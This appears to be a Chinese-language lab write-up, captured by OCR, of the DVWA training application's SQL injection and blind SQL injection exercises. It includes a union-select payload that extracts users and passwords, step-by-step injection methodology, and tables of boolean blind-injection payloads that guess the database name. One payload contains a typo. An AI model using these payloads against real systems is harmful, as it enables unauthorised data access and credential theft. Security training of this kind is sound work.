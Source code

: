         5.终了
        0 union select user,password from users #

    [![DzHPz9.jpg](https://s3.ax1x.com/2020/12/08/DzHPz9.jpg)](https://imgchr.com/i/DzHPz9)

    源码分析：

    [![DzH1sI.jpg](https://s3.ax1x.com/2020/12/08/DzH1sI.jpg)](https://imgchr.com/i/DzH1sI)

        id传参，mysqli_real_escape_string()函数

    >编码的字符是 NUL（ASCII 0）、\n、\r、\、'、" 和 Control-Z。

        数字型查询语句


* low

        由难到易，按照之前的思路来做，

        1.测试类型
        2.order by查显示位
        3.爆库报表爆字段
        4.select 所有



# SQL Injection(Blind)

* low

    >markdown中表格语法，冒号代表对齐方式

        盲注只有对与错两个结果，所以进行测试
    ***
    |猜解次数|payload|结果|
    |:-----:|:-----:|:----:|
    |1|1' #|exists|
    |2|-1' or '1'='1|exists|
    |结果|字符型|√|
    
    ***

    |猜解次数|payload|结果|
    |:-----:|:-----:|:----:|
    |1|1' and length(database())>10 #|missing|
    |2|1' and length(database())>5 #|missing|
    |3|1' and lengtj(database())>3 #|exists|
    |结果|数据库名长度为4|√|


    >**猜表名**

    |猜解次数|payload|结果|
    |:-----:|:-----:|:----:|
    |1|1' and left(database(),1)>'a' #|exists |
    |2|1' and left(database(),1)>'f' #|missing|
    |...|                             |       |
    |n|1' and left(database(),2)>'da' #|exists|
    |...|                             |       |
    |N|1' and database()='dvwa' #     |exists |